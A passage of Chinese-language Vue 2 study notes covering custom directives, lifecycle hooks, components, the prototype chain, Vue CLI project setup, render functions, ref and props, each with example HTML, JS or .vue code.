<!-- 当message值改变的时候，第一个也会随之改变，第二个则不变，依旧是hello lsq -->
```


### 18.5 v-pre语法

- 用于显示原本的标签文本，即：不对mustache语法进行解析，就显示标签中间的文本内容

```html
<div id="app">
  <h2>{{message}}</h2>
  <h2 v-pre>{{message}}</h2>
</div>

<script src="../js/vue.js"></script>
<script>
  const app = new Vue({
    el: '#app',
    data: {
      message: 'hello lsq'
    }
  })
</script>

<!-- 上面的显示的内容：hello lsq -->
<!-- 下面的显示的内容：{{message}} -->
```


## 19、自定义指令

### 19.1 函数式

- 通过配置项directives进行配置
- 在里面配置，不用加“v-”，直接写后面的指令即可
- 配置项以函数形式出现，两个参数
  - 参数一：真实dom，配置的指令所在的dom
  - 参数二：一个对象，里面包括传入的一些信息，最重要的是value，即配置的值



- 函数什么时候会调用
  - **指令和元素成功绑定时（一上来）**
  - **指令所在的模板被重新解析时**

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>函数式</title>
  <script src="../../js/vue.js"></script>
</head>
<body>

  <div id="app">
    <h2>当前的n值是：<span v-text="n"></span></h2>
    <h2>放大10倍的n值是：<span v-big="n"></span></h2>
    <button @click="n++">点我n+1</button>
  </div>

  <script>
    const app = new Vue({
      el: '#app',
      data: {
        n: 1
      },
      directives: {
        big(element, binding) {
          element.innerText = binding.value * 10
        }
      }
    })
  </script>

</body>
</html>
~~~


### 19.2 对象式

- 将自定义的指令写成对象式，里面会有三个方法，分别会在不同的时间点执行
  - **bind：指令和元素成功绑定时（一上来）**
  - **inserted：指令所在元素被插入页面时**
  - **update：指令所在的模板被重新解析时**

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>对象式</title>
  <script src="../../js/vue.js"></script>
</head>
<body>

  <div id="app">
    <h2>当前的n值是：<span v-text="n"></span></h2>
    <h2>放大10倍的n值是：<span v-big="n"></span></h2>
    <button @click="n++">点我n+1</button>
  </div>

  <script>
    const app = new Vue({
      el: '#app',
      data: {
        n: 1
      },
      directives: {
        big: {
          //指令和元素成功绑定时（一上来）
          bind(element, binding) {
            element.innerText = binding.value * 10
            console.log('bind')
          },
          //指令和元素成功绑定时
          inserted(element, binding) {
            console.log('inserted')
          },
          //指令和元素成功绑定时
          update(element, binding) {
            element.innerText = binding.value * 10
            console.log('update')
          }
        }
      }
    })
  </script>

</body>
</html>
~~~


### 19.3 总结

- **指令名总结**
  - 如果指令名是多个单词组成的，不能以驼峰式命名，因为它不区分大小写，会报错
  - 如果是多个单词组合，命令要以"-"隔开，directives中命令要以单引号括起来

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>总结</title>
  <script src="../../js/vue.js"></script>
</head>
<body>

  <div id="app">
    <h2>当前的n值是：<span v-text="n"></span></h2>
    <h2>放大10倍的n值是：<span v-big-number="n"></span></h2>
    <button @click="n++">点我n+1</button>
  </div>

  <script>
    const app = new Vue({
      el: '#app',
      data: {
        n: 1
      },
      directives: {
        'big-number'(element, binding) {
          element.innerText = binding.value * 10
        }
      }
    })
  </script>

</body>
</html>
~~~

- **指令方法中的this指代的都是window实例**

~~~html
 <script>
    const app = new Vue({
      el: '#app',
      data: {
        n: 1
      },
      directives: {
        'big-number'(element, binding) {
          console.log(this)
          element.innerText = binding.value * 10
        }
      }
    })
  </script>
~~~



- **自定义指令如果写在vue实例中那就是局部指令了，只在所绑定的vue实例中生效**
  - 如果要在全局中生效，就需要通过Vue.directive配置
    - 参数一：指令名
    - 参数二：方法体

~~~html
  <div id="app">
    <h2>当前的n值是：<span v-text="n"></span></h2>
    <h2>放大10倍的n值是：<span v-big="n"></span></h2>
    <h2>放大10倍的n值是：<span v-bianda="n"></span></h2>
    <button @click="n++">点我n+1</button>
  </div>

  <script>
    // 函数式写法  
    Vue.directive('big', function(element, binding) {
      console.log(element)
      element.innerText = binding.value * 10
    })
    // 对象式写法
    Vue.directive('bianda', {
      //指令和元素成功绑定时（一上来）
      bind(element, binding) {
        element.innerText = binding.value * 10
        console.log('bind')
      },
      //指令和元素成功绑定时
      inserted(element, binding) {
        console.log('inserted')
      },
      //指令和元素成功绑定时
      update(element, binding) {
        element.innerText = binding.value * 10
        console.log('update')
      }
    })  
    const app = new Vue({
      el: '#app',
      data: {
        n: 1
      }
    })
  </script>
~~~


# 三、深层部分

## 1、Vue的生命周期

### 1.1 声明周期是什么

- 生命周期又名：生命周期回调函数、声明周期函数、声明周期钩子
- 是什么：**Vue在关键时刻帮我们调用的一些特殊名称的函数**
- 生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的
- 生命周期函数中的this指向vm或组件实例对象




### 1.2 初始化部分

- beforeCreate：此时数据代理和数据监测还未开始，不能通过vm访问到data中的数据和methods中的方法
- created：可以通过vm访问到data中的数据和methods中的方法
- 中间判断是否有el项及template：这部分将数据渲染为虚拟DOM放入内存，页面还未显示数据
- beforeMount：DOM元素挂载前，此时页面呈现未编译的DOM结构，且任何DOM操作均不奏效
- mounted：DOM元素挂载后，此时页面呈现编译后的DOM结构，任何DOM操作都奏效

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>初始化部分</title>
    <script type="text/javascript" src="../../js/vue.js"></script>
</head>
<body>

    <div id="root" :x="n">
        当前n的值为：{{n}}
        <button @click="add">n++</button>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',    // Vue开始解析模板，如果没有el项，就去看vm.$mount('el')，都没有就停在created后
            template: '<div id="root">/n' +         // template：如果有此配置，template的数据会被解析，然后整个替换掉el所绑定的容器上，注意：template中的只能有一个根节点
                '        当前n的值为：{{n}}/n' +
                '        <button @click="add">n++</button>/n' +
                '    </div>',
            data: {
                n: 1
            },
            methods: {
                add() {
                    this.n++
                }
            },
            beforeCreate() {
                console.log("beforeCreate")
                console.log("此时数据代理和数据监测还未开始，不能通过vm访问到data中的数据和methods中的方法")
            },
            created() {
                console.log("created")
                console.log("可以通过vm访问到data中的数据和methods中的方法")
            },
            beforeMount() {
                console.log("beforeMount")
                console.log("DOM元素挂载前，此时页面呈现未编译的DOM结构，且任何DOM操作均不奏效")
            },
            mounted() {
                console.log("mounted")
                console.log("DOM元素挂载后，此时页面呈现编译后的DOM结构，任何DOM操作都奏效")
            }
        })
    </script>
</body>
</html>
~~~


### 1.3 更新部分

- beforeUpdate：更新前，此时数据是新的，页面是旧的
- 新旧虚拟DOM对比，然后数据渲染到页面上
- updated：更新后，数据和页面都是新的

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>更新部分</title>
    <script type="text/javascript" src="../../js/vue.js"></script>
</head>
<body>

    <div id="root" :x="n">
        当前n的值为：{{n}}
        <button @click="add">n++</button>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',    // Vue开始解析模板，如果没有el项，就去看vm.$mount('el')，都没有就停在created后
            data: {
                n: 1
            },
            methods: {
                add() {
                    this.n++
                }
            },
            beforeUpdate() {
                console.log('beforeUpdate')
                console.log('更新前，此时数据是新的，页面是旧的')
            },
            updated() {
                console.log('updated')
                console.log('更新后，数据和页面都是新的')
            }
        })
    </script>
</body>
</html>
~~~


### 1.4 销毁部分

- 调用vm.$destroy()，会完全销毁一个实例，清理它与其他实例的连接，解绑它的全部指令及事件监听器
- 同时触发beforeDestroy和destroyed的钩子
- 注意：
  - Vue实例销毁之后，原生DOM事件绑定上后就还是触发，并不是就不能用了，失效的是指令和自定义事件
  - **beforeDestroy阶段不会再触发数据的更新部分了**

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>销毁部分</title>
  <script type="text/javascript" src="../../js/vue.js"></script>
</head>
<body>

  <div id="root" :x="n">
    <h1>当前n的值为：{{n}}</h1>
    <button @click="add">n++</button>
    <button @click="bye">销毁Vue</button>
  </div>

  <script>
    const vm = new Vue({
      el: '#root',    // Vue开始解析模板，如果没有el项，就去看vm.$mount('el')，都没有就停在created后
      data: {
        n: 1
      },
      methods: {
        add() {
          console.log('add')    // 销毁之后，依然会触发此输出，这是原生dom事件，Vue实例即使销毁还是会触发
          console.log('n的值：' + this.n)
          this.n++
        },
        bye() {
          this.$destroy()
        }
      },
      beforeDestroy() {
        console.log('beforeDestroy')
        this.n++     // 销毁之后，数据再更新就不会触发了，不会回过头去调beforeUpdate和updated方法啥的
      },
      destroyed() {
        console.log('destroyed')
      }
    })
  </script>

</body>
</html>
~~~


### 1.5 总结

- 8个生命周期钩子
  - 将要创建 ===> 调用beforeCreate函数
  - 创建完毕 ===> 调用created函数
  - 将要挂载 ===> 调用beforeMount函数
  - 挂载完毕 ===> 调用mounted函数 ===> 重要钩子
  - 将要更新 ===> 调用beforeUpdate函数
  - 更新完毕 ===> 调用updated函数
  - 将要销毁 ===> 调用beforeDestroy函数
  - 销毁完毕 ===> 调用destroyed函数 ===> 重要钩子
- 关于销毁Vue实例
  - 销毁后借助Vue开发者工具看不到任何信息
  - 销毁后自定义事件会失效，但原生DOM事件依然有效
  - 一般不会在beforeDestroy操作数据，因为即使操作数据，也不会再触发更新流程了

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>总结</title>
  <script type="text/javascript" src="../../js/vue.js"></script>
</head>
<body>

  <div id="root">
    <h1 :style="{opacity}">欢迎学习Vue</h1>
    <button @click="opacity = 1">透明度设置为1</button>
    <button @click="stop">点我停止变化</button>
  </div>

  <script>
    const vm = new Vue({
      el: '#root',    // Vue开始解析模板，如果没有el项，就去看vm.$mount('el')，都没有就停在created后
      data: {
        opacity: 1
      },
      methods: {
        stop() {
          this.$destroy()
        }
      },
      mounted() {
        this.timer = setInterval(() => {
          console.log('setInterval')
          this.opacity -= 0.01
          if(this.opacity <= 0) this.opacity = 1
        }, 16)
      },
      beforeDestroy() {
        clearInterval(this.timer) // 清除定时器
      }
    })
  </script>

</body>
</html>
~~~


## 2、组件

### 2.1 介绍

#### 2.1.1 模块与模块化

- 模块
  - 理解：向外提供特定功能的js程序，一般就是一个js文件
  - 理由：js文件很多很复杂
  - 作用：复用js，简化js的编写，提高js运行效率
- 模块化
  - 当应用中的js都以模块来编写，那么这个应用就是一个模块化应用
- 缺点
  - 依赖关系混乱，不好维护。比如js之间存在引入先后问题
  - 代码复用率不高。两个页面都是引入js代码，并不是用的同一个结构




#### 2.1.2 组件与组件化

- 组件
  - 理解：用来实现局部(功能)效果的代码集合(html/css/js/image...)
  - 理由：一个界面的功能很复杂
  - 作用：复用代码，简化项目的编码，提高运行效率
- 组件化
  - 当应用中的功能都以多组件的方式来编写，那么这个应用就是一个组件化应用




### 2.2 非单文件组件

- **一个文件中包含多个组件**


#### 2.2.1 基本使用

- Vue中使用组件的三大步骤

  - 定义组件（创建组件）
  - 注册组件
  - 使用组件（写组件标签）

- 如何定义一个组件

  - 使用Vue.extend(options)创建，其中options和new Vue(options)时传入的那个options几乎一样，但也有些区别

    - el不要写。原因：最终所有的组件都要经过一个vm的管理器，由vm中的el决定服务哪个容器
    - data必须写成函数。理由：避免组件被复用时，数据存在引用关系

    ~~~js
    // 对象方式
    let obj = {
    	name: 'lzy',
        age: 18
    }
    const x1 = obj;
    const x2 = obj
    // 此时使用x1修改name的值，那么x2也会随之改变

    // 函数方式
    data() {
        return {
            name: 'lzy',
        	age: 18
        }
    }
    const x1 = data();
    const x2 = data()
    // 写成函数方式，每调用一次data函数，都会创建一个新的对象返回，这样x1变的时候，x2就不会变，就不会出现引用关系
    ~~~

  - 备注：使用template可以配置组件结构

- 如何注册组件

  - 局部注册：靠new Vue的时候传入components选项
  - 全局注册：靠Vue.component('组件名',组件)

- 引用组件

  - 编写组件标签：/<school>/</school>

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>组件使用</title>
  <script type="text/javascript" src="../../js/vue.js"></script>
</head>
<body>

  <div id="root">
    <school></school>
    <hr />
    <student></student>
  </div>

  <script>
    // 注册组件
    const school = Vue.extend({
      template: `
        <div>
          <h1>学校名称：{{schoolName}}</h1>
          <h1>学校地址：{{schoolAddress}}</h1>
        </div>
      `,
      data() {
        return {
          schoolName: '广水一中',
          schoolAddress: '广水市'
        }
      }
    })

    // 注册组件
    const student = Vue.extend({
      template: `
        <div>
          <h1>学生名称：{{studentName}}</h1>
          <h1>学生年龄：{{studentAge}}</h1>
          <button @click="addAge">添加年龄</button>
        </div>
      `,
      data() {
        return {
          studentName: 'LZY',
          studentAge: 18
        }
      },
      methods: {
        addAge() {
          this.studentAge++
        }
      }
    })

    // 全局注册
    Vue.component('student', student)

    // 局部注册
    const vm = new Vue({
      el: '#root',
      components: {
        school: school        // key对应组件标签名，value对应组件名
      }
    })
  </script>

</body>
</html>
~~~


#### 2.2.2 注意点

- 关于组件名
  - 一个单词组成
    - 第一种写法(首字母小写)：school
    - 第二种写法(首字母大写)：School
  - 多个单词组成
    - 第一种写法：my-school
    - 第二种写法：MySchool（需脚手架支持）
  - 备注：
    - 组件名尽可能回避HTML中已有的元素名称，例如：h2和H2都不行
    - 可以使用name配置项指定组件在开发者工具中呈现的名字
- 关于组件标签
  - 第一种写法：/<school>/</school>
  - 第二种写法：/<school />
  - 备注：不使用脚手架时，/<school />会导致后续组件不能渲染，只会渲染第一个
- 一个简写形式：
  - const student = Vue.extend(options)可以写成const student = options

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>注意点</title>
  <script type="text/javascript" src="../../js/vue.js"></script>
</head>
<body>

  <div id="root">
    <!-- 标签引入1 -->
    <student></student>
    <hr />
    <!-- 标签引入2 -->
    <my-student />
  </div>

  <script>
    // 注册组件，简写方式
    const student = {
      name: 'lzy',  // 此配置加上后，在开发者工具中就显示的是Lzy，但是在代码中还是要用school
      template: `
          <div>
            <h1>学生名称：{{studentName}}</h1>
            <h1>学生年龄：{{studentAge}}</h1>
            <button @click="addAge">添加年龄</button>
          </div>
        `,
      data() {
        return {
          studentName: 'LZY',
          studentAge: 18
        }
      },
      methods: {
        addAge() {
          this.studentAge++
        }
      }
    }
    // 局部注册
    const vm = new Vue({
      el: '#root',
      components: {
        student: student,
        Student: student,
        'my-student': student,
        'MyStudent': student
      }
    })
  </script>

</body>
</html>
~~~


#### 2.2.3 组件嵌套

- vm
  - app
    - school
      - student
    - hello



```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>组件嵌套</title>
  <script type="text/javascript" src="../../js/vue.js"></script>
</head>
<body>

  <div id="root">
    <app></app>
  </div>

  <script>
    // 注册student组件
    const student = Vue.extend({
      template: `
        <div>
          <h1>学生名称：{{studentName}}</h1>
          <h1>学生年龄：{{studentAge}}</h1>
        </div>
      `,
      data() {
        return {
          studentName: 'LZY',
          studentAge: 18
        }
      }
    })

    // 注册school组件
    const school = Vue.extend({
      template: `
        <div>
          <h1>学校名称：{{schoolName}}</h1>
          <h1>学校地址：{{schoolAddress}}</h1>
          <student></student>
        </div>
      `,
      data() {
        return {
          schoolName: '广水一中',
          schoolAddress: '广水市'
        }
      },
      components: {
        student: student  // 嵌套注册：在组件里面注册上面的组件，注意一定要在后面写，否则找不到定义
      }
    })

    // 注册hello组件
    const hello = Vue.extend({
      template: `
        <div>
          <h1>msg：{{msg}}</h1>
        </div>
      `,
      data() {
        return {
          msg: 'hello msg'
        }
      }
    })

    // 注册app组件
    const app = Vue.extend({
      template: `
        <div>
          <school></school>
          <hello></hello>
        </div>
      `,
      components: {
        school: school,
        hello: hello
      }
    })

    // 局部注册
    const vm = new Vue({
      el: '#root',
      components: {
        app: app
      }
    })
  </script>

</body>
</html>
```


#### 2.2.4 关于VueComponent

- school组件本质是一个**名为VueComponent的构造函数**，且不是程序员定义的，是Vue.extend生成的



- 只需要写/<school>/</school>或/<school />，Vue解析时会帮我们创建school组件的实例对象，即Vue帮我们执行的：new VueComponent(options)

~~~js
// 分析源码，写一个组件，都会调用这个方法一次
var Sub = function VueComponent (options) {
	console.log('VueComponent被调用了')
	this._init(options);
};
~~~

- 特别注意：**每次调用Vue.extend，返回的都是一个全新的VueComponent**，源码见Vue.extend中return Sub
- 关于this指向：
  - 组件配置中：data函数、methods中的函数、watch中的函数、computed中的函数 this均是【VueComponent实例对象】
  - new Vue(options)配置中：data函数、methods中的函数、watch中的函数、computed中的函数 this均是【Vue实例对象】

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>VueComponent</title>
  <script type="text/javascript" src="../../js/vue.js"></script>
</head>
<body>

  <div id="root">
    <school></school>
    <student></student>
  </div>

  <script>
    // 注册student组件
    const student = Vue.extend({
      template: `
        <div>
          <h1>学生名称：{{studentName}}</h1>
          <h1>学生年龄：{{studentAge}}</h1>
        </div>
      `,
      data() {
        return {
          studentName: 'LZY',
          studentAge: 18
        }
      }
    })

    // 注册school组件
    const school = Vue.extend({
      template: `
        <div>
          <h1>学校名称：{{schoolName}}</h1>
          <h1>学校地址：{{schoolAddress}}</h1>
        </div>
      `,
      data() {
        return {
          schoolName: '广水一中',
          schoolAddress: '广水市'
        }
      }
    })

    // 输出school组件
    console.log('school ====> ' + school)
    //返回fasle，因为每次调用都会产生一个新的VueComponent实例对象，虽然输出是相同的，但是不是同一个对象
    console.log(school === student)   
      
    // 局部注册
    const vm = new Vue({
      el: '#root',
      components: {
        student: student,
        school: school
      }
    })
  </script>

</body>
</html>
~~~


#### 2.2.5 vm和vc区别

- **组件是可复用的Vue实例**
- 所以组件与new Vue接收相同的选项、例如data、computed、watch、methos以及生命周期钩子等
- 仅有的例外是：
  - el只有vue实例对象才有，因为组件是可复用的，不能直接挂载在具体哪个容器上
  - 组件的data必须写成函数方式


#### 2.2.6 原型链

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>原型链</title>
</head>
<body>
  <script>
    // 定义一个构造函数
    function Demo() {
      this.a = 1
      this.b = 2
    }
    // 创建一个Demo的实例对象
    const demo = new Demo()

    console.log(Demo.prototype) // 显式原型属性
    console.log(demo.__proto__) // 隐式原型属性
    console.log('显式原型属性 和 隐式原型属性 是否指向同一个原型对象：' + (Demo.prototype === demo.__proto__)) // true

    // 通过显式原型属性操作原型对象，追加一个x属性，值为99
    Demo.prototype.x = 99
    // 通过隐式原型属性查看x的值
    console.log('隐式原型属性：' + demo.__proto__.x) // 99
    console.log('隐式原型属性：' + demo.x) // 99

    // 输出demo对象
    console.log('demo对象：', demo)
  </script>
</body>
</html>
~~~




#### 2.2.7 一个内置关系

- ~~~js
  VueComponent.prototype.__proto__ === Vue.prototype
  ~~~

- 原型链

  - 构造函数对应的是显式原型属性
  - 通过构造函数声明的实例对象对应的是隐式原型属性
  - 二者均指向同一个原型对象

- **实例的隐式原型属性永远指向自己缔造者的原型对象**

- Vue中的内置关系

  - vm
    - Vue构造函数对应的是显式原型属性
    - 通过new Vue({...})声明的Vue实例对象是隐式原型属性
    - 二者均指向一个原型对象
    - 然后这个原型对象的隐式原型属性指向Object的原型对象
    - 而Object的隐式原型属性为空，且有个toString属性，所以以后顺着看，看到toString就是到了Object这层了
  - vc
    - VueComponent构造函数对应的是显式原型属性
    - 编写组件标签的时候，会调用new VueComponent({...})，实例对象对应的是隐式原型属性
    - 二者均指向一个原型对象
    - **（重点）这个原型对象的隐式原型属性指向Vue的原型对象**
  - 为什么会这个样搞
    - **让组件实例对象vc可以访问到Vue原型上的属性、方法**




~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>内置关系</title>
  <script type="text/javascript" src="../../js/vue.js"></script>
</head>
<body>

  <div id="root">
    <school></school>
  </div>

  <script>
    // 通过显式原型属性给Vue上加了一个属性x
    // 这样通过vm这个实例对象，可以顺着隐式原型属性访问到，vm.x
    // 然后school这个时候是一个对象，通过school.prototype.__proto__.x便可访问到x
    Vue.prototype.x = 99

    // 声明组件
    const school = Vue.extend({
      template: `
        <div>
          <h1>学校名称：{{schoolName}}</h1>
          <h1>学校地址：{{schoolAddress}}</h1>
          <button @click="print()">打印Vue对象上的属性</button>
        </div>
      `,
      data() {
        return {
          schoolName: '广水一中',
          schoolAddress: '广水市'
        }
      },
      methods: {
        print() {
          console.log('x:' + this.x)
        }
      }
    })

    // 注册组件
    const vm = new Vue({
      el: '#root',
      components: {
        school
      }
    })
  </script>

</body>
</html>
~~~




### 2.3 单文件组件

- **文件后缀名为.vue**
- 文件中有三部分，三种标签
  - /<template>：组件的结构
  - /<script>：组件交互的相关代码（数据方法等）
  - /<style>：组件的样式
- school组件

~~~vue
<template>
  <!-- 组件的结构 -->
  <div class="demo">
    <h2>学校名称：{{schoolName}}</h2>
    <h2>学校地址：{{schoolAddress}}</h2>
    <button @click="showName">点我提示学校名</button>
  </div>
</template>

<script>
  // 组件交互的相关代码（数据方法等）
  // 默认暴露，且Vue.extend可以省略不写，所以直接用下方代码生成组件交互代码
  export default {
    name: 'School',
    data() {
      return {
        schoolName: '广水一中',
        schoolAddress: '湖北广水'
      }
    },
    methods: {
      showName() {
        alert(this.schoolName)
      }
    }
  }
</script>

<style>
  /*组件的样式 */
  .demo {
    background-color: red;
  }
</style>
~~~

- student组件

~~~vue
<template>
  <!-- 组件的结构 -->
  <div>
    <h2>学生名称：{{studentName}}</h2>
    <h2>学生年龄：{{age}}</h2>
  </div>
</template>

<script>
// 组件交互的相关代码（数据方法等）
// 默认暴露，且Vue.extend可以省略不写，所以直接用下方代码生成组件交互代码
export default {
  name: 'Student',
  data() {
    return {
      studentName: 'lzy',
      age: 18
    }
  }
}
</script>
~~~

- app组件（管理所有其他组件，一人之下万人之上）

~~~vue
<template>
  <div>
    <!-- 引用School组件 -->
    <School></School>
    <!-- 引用Student组件 -->
    <Student></Student>
  </div>
</template>

<script>
  // 引入组件
  import School from "./School";
  import Student from "./Student";
  // 声明组件
  export default {
    name: 'App',
    components: {
      School,
      Student
    }
  }
</script>

<style>

</style>
~~~

- 在main.js中管理组件，进行操作

~~~js
import App from "./App";

new Vue({
    el: '#root',
    components: {
        App 
    }
})
~~~

- 在index.html中创建容器

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>容器</title>
</head>
<body>
  <!-- 准备一个容器 -->
  <div id="root">
	<App></App>
  </div>

  <!-- 引入vue.js -->
  <script type="text/javascript" src="../../../js/vue.js"></script>
  <!-- 引入main.js -->
  <script type="text/javascript" src="./main.js"></script>

</body>
</html>
~~~


# 四、Vue脚手架

## 1、初始化脚手架

### 1.1 说明

- Vue脚手架是Vue官方提供的标准化开发工具（开发平台）


### 1.2 具体步骤

- 安装nodejs
- 第二步：设置安装镜像
  - npm config set registry [https://registry.npm.taobao.org](https://registry.npm.taobao.org/)；
- 第二步：全局安装@vue/cli
  - npm i -g @vue/cli 
- 第三步：查看安装是否成功
  - vue -v
- 第四步：进入指定目录，生成脚手架项目
  - **vue create vue-pro**
  - 选择vue2版本
- 第五步：从项目目录中cmd进入，启动项目
  - npm run serve
- 第六步：浏览器中访问
- 第七步：ctrl+c关闭项目


### 1.3 分析脚手架项目



- .gitignore：git的忽略文件
- babel.config.js：babel的配置文件，用于配置es6转es5的方式
- package.json和package-lock.json：包的说明书，跟pom文件一样
  - "serve": "vue-cli-service serve"：编译项目
  - "build": "vue-cli-service build"：构建项目，将项目编译成可访问的项目
  - "lint": "vue-cli-service lint"：检查代码，js和vue语法检查


### 1.4 项目分析

- 当执行了npm run serve之后，就会执行main.js文件

~~~js
/*
	该文件是整个项目的入口文件
 */ 
// 引入Vue
import Vue from 'vue'
// 引入App组件，他是所有组件的父组件
import App from './App.vue'

// 关闭vue的生产提示
Vue.config.productionTip = false

// 创建Vue实例对象
new Vue({
  // el: '#app',  // 也可以这样写
  // 将App组件放入容器中
  render: h => h(App),
}).$mount('#app')
~~~

- App组件

```vue
<template>
  <div id="app">
    <!-- assets里面放静态资源 -->
    
    <!-- 引入HelloWorld组件 -->
    <HelloWorld msg="Welcome to Your Vue.js App"/>
  </div>
</template>

<script>
import HelloWorld from './components/HelloWorld.vue'

export default {
  name: 'App',
  components: {
    HelloWorld
  }
}
</script>

<style>
#app {
  font-family: Avenir, Helvetica, Arial, sans-serif;
  -webkit-font-smoothing: antialiased;
  -moz-osx-font-smoothing: grayscale;
  text-align: center;
  color: #2c3e50;
  margin-top: 60px;
}
</style>
```

- 页面index.html

~~~html
<!DOCTYPE html>
<html lang="">
  <head>
    <meta charset="utf-8">
    <!-- 针对IE浏览器的一个特殊配置，含义是让IE浏览器以最高的渲染级别渲染页面 -->
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <!-- 针对IE浏览器的一个特殊配置，含义是让IE浏览器以最高的渲染级别渲染页面 -->
    <meta name="viewport" content="width=device-width,initial-scale=1.0">
    <!-- 配置页签图标 注意:<%= BASE_URL %>：指的是public的路径 -->  
    <link rel="icon" href="<%= BASE_URL %>favicon.ico">
    <!-- 配置网页标题 -->
    <title><%= htmlWebpackPlugin.options.title %></title>
  </head>
  <body>
    <!-- 当浏览器不支持js时，noscript中的元素就会被渲染 -->  
    <noscript>
      <strong>We're sorry but <%= htmlWebpackPlugin.options.title %> doesn't work properly without JavaScript enabled. Please enable it to continue.</strong>
    </noscript>
    <!-- 容器 -->
    <div id="app"></div>
    <!-- built files will be auto injected -->
  </body>
</html>
~~~


### 1.5 render函数

- **import Vue from 'vue'**

  - 这行代码指引入Vue的依赖，他只指到vue目录，他的版本由Vue目录下的package.json控制

  

  - 由上述文件中的moudle控制

  

  - 从上面看到，他引入了阉割版的vue，没有模板解析器，所以如果不加render函数，页面模板就不会被解析
  - 所以第一种方案：直接引入完整版的vue，便可解决没有模板解析器的问题**import Vue from 'vue/dist/vue.js'**

  ~~~js
  /*
  	该文件是整个项目的入口文件
   */
  // 引入Vue,如果不写完整版的vue，下面的template就不会解析
  import Vue from 'vue/dist/vue.js'
  // 引入App组件，他是所有组件的父组件
  // import App from './App.vue'

  // 关闭vue的生产提示
  Vue.config.productionTip = false

  // 创建Vue实例对象
  new Vue({
    el: '#app',  // 也可以这样写
    // 将App组件放入容器中
    // render: h => h(App),
    template: `<h1>123</h1>`
  })
  ~~~

- **render函数**

  - render函数的作用：就是解析模板，然后渲染dom元素到页面上

  ~~~js
  // 有个返回值，返回值就是把元素渲染到页面上的东西
  render(createElement) {
    return createElement('h1', '你好')
  }
  ~~~

  - 简写一下

  ~~~js
  // 没有用到this，所以可以写成箭头函数
  render: (createElement) => {
    return createElement('h1', '你好')
  }

  // 只有一个入参，所以括号可以省略
  render: createElement => {
    return createElement('h1', '你好')
  }

  // 只有一行返回值代码，所以大括号也可省略
  render: createElement => createElement('h1', '你好')

  // 将createElement换个名字，h
  render: h => h('h1', '你好')

  // 将h里面的入参换一下，换成App
  render: h => h(App)
  ~~~

- 为什么要用render



- 总结
  - vue.js和vue.runtime.xxx.js的区别
    - vue.js是完整版的Vue，包含核心功能 + 模板解析器
    - vue.runtime.xxx.js是运行版的Vue，只包含：核心功能，没有模板解析器
  - 因为vue.runtime.xxx.js没有模板解析器，所以不能使用template配置项，需要使用render函数收到createElement函数去指定具体内容


### 1.6 脚手架的默认配置

- 使用**vue inspect > output.js**可以查看到Vue脚手架的默认配置
- 使用vue.config.js可以对脚手架进行个性化定制，详情见：https://cli.vuejs.org/zh/config/

~~~js
module.exports = {
  pages: {
    index: {
      // page 的入口
      entry: 'src/peizhi.js',
      // 模板来源
      template: 'public/index.html',
      // 在 dist/index.html 的输出
      filename: 'index.html',
      // 当使用 title 选项时，
      // template 中的 title 标签需要是 <title><%= htmlWebpackPlugin.options.title %></title>
      title: 'Index Page',
      // 在这个页面中包含的块，默认情况下会包含
      // 提取出来的通用 chunk 和 vendor chunk。
      chunks: ['chunk-vendors', 'chunk-common', 'index']
    },
    // 当使用只有入口的字符串格式时，
    // 模板会被推导为 `public/subpage.html`
    // 并且如果找不到的话，就回退到 `public/index.html`。
    // 输出文件名会被推导为 `subpage.html`。
    subpage: 'src/subpage/main.js'
  }
}
~~~


### 1.7 ref属性

- 被用来给元素或者子组件注册引用信息（id的替代者）
- 应用在html标签上获取的是真实DOM元素，应用在组件标签上是组件实例对象（vc）
- 使用方式
  - 打标识：/<h1 ref="xxx">.../</h1> 或 /<School ref="xxx">/</School>
  - 获取：this.$refs.xxx

~~~vue
<template>
  <div>
    <h1 v-text="msg" ref="title"></h1>
    <button ref="btn" @click="showDom">点我输出上方的dom元素</button>
    <School ref="school"></School>
  </div>
</template>

<script>
import School from "@/components/School";
export default {
  name: "RefTest",
  components: {School},
  data() {
    return {
      msg: '这是ref的测试'
    }
  },
  methods: {
    showDom() {
      console.log(this.$refs)
      console.log(this.$refs.title)
      console.log(this.$refs.btn)
      console.log(this.$refs.school)
    }
  }
}
</script>
~~~




### 1.8 props属性

- 功能：让组件接收外部传过来的数据

  - 传递方：/<Demo name="xxx" />

  - 接收方：

    - 第一种方式（只接收）：

      ~~~vue
      props: ['name']
      ~~~

    - 第二种方式（限制类型）：

      ~~~vue
      props: {
      	name: Number
      }
      ~~~

    - 第三种方式（限制类型、限制必要性、指定默认值）：

      ~~~vue
      props: {
      	name: {
      		type: String, //类型
      		required: true, //必要性
      		default: '老王' //默认值
      	}
      }
      ~~~

- 备注：props是只读的，Vue底层会监测对props的修改，如果进行了修改，就会发出警告，若业务需求确实需要修改，可以复制props的内容到data中一份，然后去修改data中的数据

~~~vue
<template>
  <div>
    <h1>{{msg}}</h1>
    <h2>学生姓名：{{name}}</h2>
    <h2>学生性别：{{sex}}</h2>
    <h2>学生年龄：{{myAge}}</h2>
    <button @click="addAge">修改年龄</button>
  </div>
</template>

<script>
export default {
  // eslint-disable-next-line vue/multi-word-component-names
